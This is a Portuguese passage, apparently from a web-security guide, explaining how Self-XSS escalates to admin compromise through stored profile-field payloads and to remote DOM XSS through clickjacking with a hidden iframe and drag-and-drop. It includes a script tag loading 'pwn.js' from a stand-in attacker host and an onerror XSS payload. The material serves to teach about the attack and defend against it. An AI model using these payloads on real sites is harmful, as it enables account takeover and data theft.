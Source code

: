Este é talvez o caminho de escalação mais crítico, transformando o *Self-XSS* numa ferramenta para atacar usuários com privilégios elevados, como administradores ou equipas de suporte.

**O Cenário do Administrador como Vítima**:
- **Descoberta**: Um atacante encontra uma vulnerabilidade de *Self-XSS* num campo controlado pelo usuário que é visível para outros usuários, especialmente administradores. Exemplos comuns incluem o nome do perfil, morada, ou qualquer outro campo que um administrador possa precisar de rever.
- **Injeção do Payload**: O atacante cria uma conta de usuário padrão e injeta um *payload* malicioso num dos seus próprios campos de perfil. Por exemplo, no campo "Nome", ele insere:
  ```html
  John Doe<script src="https://attacker.com/pwn.js"></script>
  ```
- **A Isca**: O atacante, usando a sua conta comprometida, realiza uma ação que requer intervenção administrativa. Ele pode submeter um *ticket* de suporte falso, reportar um problema inexistente ou simplesmente esperar que um administrador reveja perfis de novos usuários.
- **Execução Privilegiada**: Quando o administrador ou agente de suporte acede à página de perfil do atacante para investigar, o *payload* JavaScript é carregado e executado no contexto da sessão do administrador.
- **Comprometimento Total**: O *script*, agora a correr com privilégios de administrador, pode executar uma vasta gama de ações maliciosas: criar novas contas de administrador, exportar dados de todos os usuários, desativar controlos de segurança, ou instalar uma *backdoor* persistente na aplicação.

Este cenário demonstra como a premissa de que "o usuário só se ataca a si mesmo" é perigosamente falaciosa. O atacante está, na verdade, a usar a sua própria conta como uma "mina terrestre" para atacar um alvo de maior valor.

### 4.3. Exploração Avançada: De Self-XSS para XSS Completo via Clickjacking

Em cenários mais técnicos, é possível remover completamente a limitação "self" de uma vulnerabilidade de *Self-DOM-based XSS*, transformando-a numa vulnerabilidade que pode ser acionada remotamente através de uma técnica de *UI redressing* conhecida como *Clickjacking*.

**Pré-requisitos**:
- A página alvo deve ter uma vulnerabilidade de *XSS Baseado em DOM* que é acionada por uma interação do usuário (como arrastar e soltar, ou colar num campo).
- A página alvo não deve ter o cabeçalho de resposta HTTP `X-Frame-Options` ou uma política de `frame-ancestors` suficientemente restritiva na sua *Content Security Policy* (CSP).

**Fluxo de Ataque**:
- **Página Maliciosa**: O atacante cria e hospeda uma página web.
- **Iframe Oculto**: Esta página contém um `<iframe>` invisível ou transparente que carrega a página da aplicação vulnerável.
- **UI Enganadora**: O atacante sobrepõe o `<iframe>` com elementos de interface atrativos, como um jogo "Arraste-me para ganhar um prémio!".
- **Carregamento do Payload**: O elemento arrastável é configurado com um manipulador de eventos `ondragstart`. Quando o usuário começa a arrastar este elemento, o evento é acionado e carrega o *payload* XSS para o objeto `dataTransfer`. Exemplo:
  ```javascript
  event.dataTransfer.setData('text/plain', '<img src=x onerror=alert(1)>');
  ```
- **Ação da Vítima**: O atacante engana a vítima para que arraste o elemento e o largue numa área específica da interface. Esta área corresponde precisamente à localização do campo de entrada vulnerável dentro do `<iframe>` oculto.
- **Execução do XSS**: Quando a ação de largar ocorre, o *payload* é inserido no campo vulnerável, acionando a falha de *XSS Baseado em DOM* no contexto da sessão autenticada da vítima, sem que ela alguma vez tenha interagido diretamente com a consola ou colado código conscientemente.
